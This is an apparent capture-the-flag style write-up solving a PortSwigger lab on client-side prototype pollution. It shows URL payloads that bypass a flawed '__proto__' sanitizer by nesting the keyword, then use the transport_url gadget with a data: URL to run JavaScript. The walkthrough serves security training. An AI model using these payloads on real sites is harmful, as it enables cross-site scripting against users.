 
# Client-side prototype pollution via flawed sanitization

## This lab is vulnerable to [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based) via client-side [prototype pollution](https://portswigger.net/web-security/prototype-pollution). Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global `Object.prototype`.
    
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
    
3. Combine these to call `alert()`

______________________________________________

step 1

add `/?__proto__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new nothing changes
it means You've not found a prototype pollution source


![](images/lab3_no_property_added.jpg)

step 2

go to source and look at the js file 

![](images/lab3_search_logger_js_file.jpg)

step 3

`/?__pro__proto__to__[evilProperty]=payload`
go to console type `Object.prototype`
you will see new property added `evilProperty: 'payload'`
it means You've successfully found a prototype pollution source.

![](images/lab3_properted_added_found_prototype_pollution.jpg)

step 4

`?__pro__proto__to__[transport_url]=payload`
you will notice in elements tab `<script>` element has been rendered on the page

![](images/lab3_script_tag_render.jpg)

step 5

add payload `?__pro__proto__to__[transport_url]=data:,alert(1);//` into url 
you will get alert pop up and lab will solved

![](images/lab3_alert_pop_up.jpg)


![](images/lab3_solved_lab.jpg)